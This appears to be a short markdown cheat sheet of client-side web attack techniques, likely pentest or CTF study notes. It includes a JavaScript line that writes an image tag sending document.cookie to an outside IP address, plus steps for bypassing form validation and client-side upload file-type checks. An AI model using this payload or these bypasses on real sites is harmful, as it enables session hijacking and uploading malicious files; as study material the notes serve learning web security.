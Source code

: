 # Client Side


## HTML Comment
- ```--!>```

## CSS Hidden Element
- ```display: none;```
- ```display: hidden;```

## Bypass JS Control
- ```function```
- Stealing Cookie
```Javascript
document.write('<img src="http://192.168.8.105/?' + document.cookie + '" />');
```
- Bypass validation with return true
  - Go to page source code
  - Find validation script and copy it 
    - search for ```onsubmit``` 
  - Enable pasting
    - Browser => Console => allow pasting
  - remove ```if clause``` part and paste
```Javascript
function webform_onsubmit () {
return true;
}

```
- Bypass uploading file type restriction
  - Find function of validate file types
    - In source code (javascript), search for error text of uploading wrong file 
  - Add malicious file type to whitelist of this function
